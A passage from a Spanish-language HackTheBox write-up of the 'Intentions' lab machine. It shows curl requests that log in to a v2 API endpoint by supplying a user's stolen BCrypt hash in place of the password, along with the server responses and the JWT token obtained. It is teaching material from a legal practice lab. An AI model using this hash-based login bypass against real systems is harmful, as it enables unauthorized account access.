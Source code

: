 Están haciendo aviso de una actualización de la API del sitio, la versión 2; contiene nuevas carácteristicas como poder agregarle efectos especiales a las imágenes y que nos podemos autenticar solamente proporcionando el hash BCrypt de la contraseña del usuario, y nosotros tenemos 2 hashes...

Si te has fijado en las peticiones que estabámos haciendo vimos que todas iban al endpoint `/api/v1/*`, por lo que podemos intuir que el nuevo será `/api/v2/*`. Intentando ver si la ruta de autenticación es la misma que la de la API v1 daremos con ello.

```bash
❯ curl -v -d "" http://intentions.htb/api/v2/auth/login
*   Trying 10.10.11.220:80...
* Connected to intentions.htb (10.10.11.220) port 80
> POST /api/v2/auth/login HTTP/1.1
> Host: intentions.htb
> User-Agent: curl/8.3.0
> Accept: */*
> Content-Length: 0
> Content-Type: application/x-www-form-urlencoded
> 
< HTTP/1.1 422 Unprocessable Content
< Server: nginx/1.18.0 (Ubuntu)
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
< Cache-Control: no-cache, private
< Date: Wed, 11 Oct 2023 17:46:11 GMT
< X-RateLimit-Limit: 3600
< X-RateLimit-Remaining: 3598
< Access-Control-Allow-Origin: *
< 
* Connection #0 to host intentions.htb left intact
{"status":"error","errors":{"email":["The email field is required."],"hash":["The hash field is required."]}}
```

Dando el respectivo email y hash, lograremos obtener un token que nos pondremos como cookie para hacerle peticiones a esta API, como hemos visto que existen nuevas carácteristicas como una ruta para agregar efectos especiales a la imagen iremos a por ella.

```bash
❯ curl -v -H "Content-Type: application/json" -d "{\"email\":\"greg@intentions.htb\", \"hash\":\"\$2y\$10\$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m\"}" http://intentions.htb/api/v2/auth/login
*   Trying 10.10.11.220:80...
* Connected to intentions.htb (10.10.11.220) port 80
> POST /api/v2/auth/login HTTP/1.1
> Host: intentions.htb
> User-Agent: curl/8.3.0
> Accept: */*
> Content-Type: application/json
> Content-Length: 102
... [snip]
< Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vaW50ZW50aW9ucy5odGIvYXBpL3YyL2F1dGgvbG9naW4iLCJpYXQiOjE2OTcwNDY1MTAsImV4cCI6MTY5NzA2ODExMCwibmJmIjoxNjk3MDQ2NTEwLCJqdGkiOiJ5ZjA3NmJmQ2Q4c2swZ2pUIiwic3ViIjoiMiIsInBydiI6IjIzYmQ1Yzg5NDlmNjAwYWRiMzllNzAxYzQwMDg3MmRiN2E1OTc2ZjcifQ.st77jgsr2TyPi7cyjd64FlZnoNhYnoJVAE_Vzk9Gp3Y
```
